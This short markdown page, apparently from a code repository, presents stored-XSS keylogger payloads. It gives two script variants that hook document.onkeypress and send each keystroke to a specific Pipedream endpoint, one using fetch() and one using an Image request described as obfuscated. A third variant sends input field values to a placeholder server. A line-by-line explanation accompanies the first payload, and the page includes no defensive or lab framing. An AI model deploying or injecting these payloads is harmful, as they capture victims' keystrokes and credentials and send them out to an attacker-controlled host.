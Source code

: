 # XSS Keylogger via Stored XSS

> Use a stored XSS vulnerability to log keystrokes from a victim and send them to a remote server.

## My keylogger payload script
```js
<script>
document.onkeypress = function(e) {
  fetch("https://eodo5udpevensc2.m.pipedream.net/?" + 
    new URLSearchParams({ key: e.key }));
};
</script>
```
## Code explained
- `document.onkeypress`	:Captures every keypress on the page
- `fetch()`	:Sends the key to your Pipedream server
- `URLSearchParams`	:Encodes the key cleanly into the URL

## More obfuscated payload
```js
<script>
document.onkeypress = function(e){
  new Image().src="https://eodo5udpevensc2.m.pipedream.net/?" + "k=" + e.key;
};
</script>
```

```js
document.oninput = function(e) {
  fetch("https://your-server.net?" + "input=" + e.target.value);
};

```
